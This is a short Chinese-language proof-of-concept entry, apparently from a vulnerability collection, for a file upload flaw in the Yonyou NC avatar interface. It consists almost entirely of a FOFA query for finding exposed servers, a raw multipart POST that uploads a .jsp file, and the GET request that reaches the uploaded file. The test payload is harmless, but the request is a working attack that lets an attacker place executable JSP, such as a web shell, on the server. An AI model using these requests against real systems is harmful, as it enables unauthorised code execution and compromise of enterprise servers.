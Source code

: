 ## 用友NC-avatar接口存在文件上传漏洞

## fofa
```
body="/Client/Uclient/UClient.exe"
```

## poc
```
POST /uapim/upload/avatar?usercode=1&fileType=jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXmnamw5gVZG9KAQ
User-Agent: Mozilla/5.0 

------WebKitFormBoundaryEXmnamw5gVZG9KAQ
Content-Disposition: form-data; name="file"; filename="111.jsp"
Content-Type: application/octet-stream

3999
------WebKitFormBoundaryEXmnamw5gVZG9KAQ--
```

![image](../../images/3776732e-df39-4d9e-9f6b-1ffcbd7c2d11.png)


文件上传路径

![image](../../images/c6a16b38-752c-4a54-88a4-a04b88109145.png)

```
GET /uapim/static/pages/photo/1/1.1713358789182.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![image](../../images/b6abe3ba-35e6-410a-a265-9b2e57d7d922.png)

`http://192.168.63.129:8088/uapim/static/pages/photo/1/1.1713358789182.jsp`

